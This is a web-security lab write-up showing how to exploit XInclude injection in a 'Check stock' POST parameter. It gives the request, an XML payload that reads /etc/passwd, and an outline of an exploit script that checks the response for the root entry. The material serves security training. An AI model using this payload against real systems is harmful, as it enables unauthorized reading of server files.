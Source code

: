 ### Lab: Exploiting XInclude to retrieve files

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.

_____

Analysis and Exploit:

1. Intercept request of the "Check stock" feature
    - POST **/product/stock**
    - productId=1&storeId=1

2. Inject payload

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
    - productId=[PAYLOAD]&storeId=1

_____

Script:

1. Take arguments, if less than 2 print usage instructions and exit
2. Send payload | POST **/product/stock** | params:productId, storeId
    - productId = [PAYLOAD]
    - storeId = 1

PAYLOAD:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
    - if "root:x:0:0:root:/root:/bin/bash" in response text, exploit works!
        - print body